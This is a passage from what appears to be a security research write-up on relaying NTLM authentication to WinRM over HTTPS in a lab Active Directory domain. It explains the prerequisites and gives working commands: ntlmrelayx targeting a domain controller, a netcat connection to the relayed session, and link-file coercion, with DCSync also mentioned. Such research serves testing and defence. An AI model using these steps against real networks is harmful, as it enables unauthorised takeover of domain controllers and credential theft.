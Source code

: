   <img src="/assets/img/20251029/21.png" width="800" style="border: 1px solid black;" alt=""/>
  <div style="font-style: italic; color: #666; margin-top: 0px;">Performing DCSync</div>
</div>

## NTLM Relay to WinRM/WinRMS
#### Prerequisites
Generally speaking, NTLM relay to WinRM is impossible because the protocol has its own encryption protecting against relay attacks. However, WinRMS (WinRM over HTTPS) relies on TLS for encryption. This makes it vulnerable to relay attacks if NTLMv1 is allowed (LmCompatibilityLevel <= 2) on DC1. Even when relaying over HTTP, NTLMv1 is still required, unlike LDAP/LDAPS. This is because CbtHardeningLevel for WinRMS is not "None" but "Relaxed". WinRMS attempts to use CBT if it receives NTLMv2 authentication. ["Is TLS more secure, the WinRMS case."](https://blog.whiteflag.io/blog/is-tls-more-secured-the-winrms-case/) provides a good reference.

#### Examples
```sh
# We can use a link file as before to coerce user authentication over SMB
# NTLM relay to WinRMS
sudo python3 ntlmrelayx.py -smb2support -t winrms://dc2.kawakatz.local
nc 127.0.0.1 11000
```
<div style="text-align: center; margin: 20px 0;">
  <img src="/assets/img/20251029/46.png" width="700" style="border: 1px solid black;" alt=""/>
  <div style="font-style: italic; color: #666; margin-top: 0px;">Deployed link file</div>
</div>
<div style="text-align: center; margin: 20px 0;">
  <img src="/assets/img/20251029/44.png" width="800" style="border: 1px solid black;" alt=""/>